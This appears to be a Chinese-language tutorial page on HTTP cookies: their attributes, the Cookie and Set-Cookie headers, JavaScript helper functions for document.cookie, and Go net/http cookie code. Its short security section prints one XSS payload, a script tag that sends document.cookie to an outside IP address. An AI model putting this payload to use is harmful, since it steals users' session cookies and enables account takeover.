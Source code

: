 # Cookie

HTTP Cookie（也叫Web Cookie或浏览器Cookie）是服务器发送到用户浏览器并保存在本地的一小块数据，它会在浏览器下次向同一服务器再发起请求时被携带并发送到服务器上。通常，它用于告知服务端两个请求是否来自同一浏览器，如保持用户的登录状态。Cookie使基于无状态的HTTP协议记录稳定的状态信息成为了可能。

**cookie的本质就是http的cookie Header里面写的数据**

## cookie属性

|  名称 |  键名 | 作用  |
| ------------ | ------------ | ------------ |
|  名称 |  Name |  cookie的名称 |
|  内容 |  Value |  cookie的值 |
|  域名 |  Domain |  cookie存在的域名 |
|  路径 |  Path |  指定uri路径之下生效 |
|  过期时间 |  Expire |  失效时间 |
|  是否安全 |  Secure |  是否只能用于https |
|  是否仅用于http |  HttpOnly |  是否仅用于http传输 true时阅览器document无法读取 |

## http

在http协议中，agent请求时候一般会自动添加[Cookie][2] Header，值就是cookie键值对。

如果服务端修改cookie，在Response Header里面会有[Set-Cookie][3] Header，agent会根据值来修改自身cookie。

通过查看http请求和响应或者抓包可以发现，请求cookie header就是服务端收到的cookie数据，而服务端设置cookie后，响应里面就有set-cookie header，值就是服务端设置的属性。

详细情况请看[rfc][1]。


### 客户端js操作cookie

简单来说cookies就是阅览器里面一个叫做document.cookie的全局字符串对象

进入阅览器控制台输入`console.log(document.cookie)`,回车执行就可以看见当前站点的cookies。

发现cookies就是一段序列化的键值字符串,如果需要操作cookie，则是通过操作document.cookie字符串来达到效果。

阅览器中cookies会随http请求自动发送,在request中会有cookie和Set-Cookie这两个header,里面就是cookie,h5的fetch需要指定是否发送cookies,默认不发送cookies

js操作cookie数据，直接读写document.cookie对象，封装函数如下：

```js
"use strict";
function getCookie(name){
	var arr, reg = new RegExp("(^| )" + name + "=([^;]*)(;|$)");
	if(arr = document.cookie.match(reg))
		return unescape(arr[2]);
	else
		return null;
}

function setCookie(name, value, expiredays){
	var exp = new Date();
	exp.setDate(exp.getDate() + expiredays)
	document.cookie = name + "=" + escape(value) + ((expiredays==null) ? "" : ";expires=" + exp.toGMTString())
}

function delCookie(name){
	var exp = new Date();
	exp.setTime(exp.getTime() - 1);
	document.cookie = name + "=;expires=" + exp.toGMTString();
}
```


## 服务端go操作cookie

[net/http.Cookie][2]定义：

```golang
type Cookie struct {
        Name  string
        Value string

        Path       string    // optional
        Domain     string    // optional
        Expires    time.Time // optional
        RawExpires string    // for reading cookies only

        // MaxAge=0 means no 'Max-Age' attribute specified.
        // MaxAge<0 means delete cookie now, equivalently 'Max-Age: 0'
        // MaxAge>0 means Max-Age attribute present and given in seconds
        MaxAge   int
        Secure   bool
        HttpOnly bool
        SameSite SameSite // Go 1.11
        Raw      string
        Unparsed []string // Raw text of unparsed attribute-value pairs
}
```

查看net/http定义的函数，可以发现读Cookie实现是读取Request.Header里面的Cookie header；而修改Cookie就设置ResponseWriter.Header()里面的Set-Cookie header，例如setcookie。

### Example

操作cookie

```go
// 设置Cookie
cookie := http.Cookie{Name: "testcookiename", Value: "testcookievalue", Path: "/", MaxAge: 86400}
http.SetCookie(w, &cookie)
 
// 读取Cookie
cookie, err := req.Cookie("testcookiename")

// 删除Cookie
cookie := http.Cookie{Name: "testcookiename", Path: "/", MaxAge: -1}
http.SetCookie(w, &cookie)
```


### Get

`net/http.Request.Cookies() []*Cookie`方法就是通过读取`net/http.Request.Header["cookie"]`的值，分析出cookie键值对来构造cookie，每次读取cookie都会出来一次，效率调低。

readCookies函数过长不列出。

### Set

`net/http.SetCookie(w ResponseWriter, cookie *Cookie)`方法定义，直接将要设置的cookie序列化成字符串，给response添加Set-Cookie Header，添加多个Cookie就将Set-Cookie Header添加多次。


`net/http.Cookie.Srting()`方法就是Cookie对象的序列化的方法，会将多种属性组合成字符串。

例如：路径、域名、过期时间、只读、仅https这些属性。

以下是SetCookie和修改请求Cookie的AddCookie函数实现：

```golang
// SetCookie adds a Set-Cookie header to the provided ResponseWriter's headers.
// The provided cookie must have a valid Name. Invalid cookies may be
// silently dropped.
func SetCookie(w ResponseWriter, cookie *Cookie) {
	if v := cookie.String(); v != "" {
		w.Header().Add("Set-Cookie", v)
	}
}

// AddCookie adds a cookie to the request. Per RFC 6265 section 5.4,
// AddCookie does not attach more than one Cookie header field. That
// means all cookies, if any, are written into the same line,
// separated by semicolon.
func (r *Request) AddCookie(c *Cookie) {
	s := fmt.Sprintf("%s=%s", sanitizeCookieName(c.Name), sanitizeCookieValue(c.Value))
	if c := r.Header.Get("Cookie"); c != "" {
		r.Header.Set("Cookie", c+"; "+s)
	} else {
		r.Header.Set("Cookie", s)
	}
}
```



## 安全

### XSS

XSS触发后盗取cookie信息，然后使用Cookie信息操作。

`<script>window.open('http://10.65.20.196:8080/cookie.asp?msg='+document.cookie)</script>`

### CSRF

cookie是CSRF基本触发条件之一。

[1]: https://tools.ietf.org/html/rfc6265
[2]: https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Cookie
[3]: https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Set-Cookie
